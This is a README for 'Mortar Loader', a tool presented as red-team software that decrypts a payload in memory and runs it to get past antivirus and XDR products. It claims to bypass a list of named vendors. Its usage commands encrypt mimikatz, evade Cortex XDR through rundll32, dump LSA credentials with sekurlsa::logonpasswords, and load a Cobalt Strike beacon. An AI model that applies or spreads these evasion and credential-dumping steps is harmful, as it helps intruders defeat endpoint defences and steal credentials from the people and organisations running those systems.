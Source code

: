 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky :heavy_check_mark:
* ESET :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Cortex XDR :heavy_check_mark:
* Windows defender :heavy_check_mark:
* Cylance:heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:

detailed research and techniques : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions

CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

## Loader (DLL)
for bypassing Cortex XDR,add agressor.dll with bin.enc in the same folder and script the following bat file 
```
@echo off 
cmd.exe /c rundll32.exe agressor.dll,stealth
```
for normal usage you can directly execute the agressor.dll 

```
rundll32.exe agressor.dll,dec
```
## Loader (EXE)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlsa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling the Loader (windows only)
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads) and navigate into file > open  -> Run -> build 


# Compiling Encryptor(Linux/BSD/Arm/MacOS//windows)
either by downloading and installing Lazarus-IDE from the official site(https://www.lazarus-ide.org/index.php?page=downloads)

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```
# Support the research 
if you think you have benefited from this open-source project and want more updates in the future, please mind time and efforts by making a donation
https://donorbox.org/support-0xsp






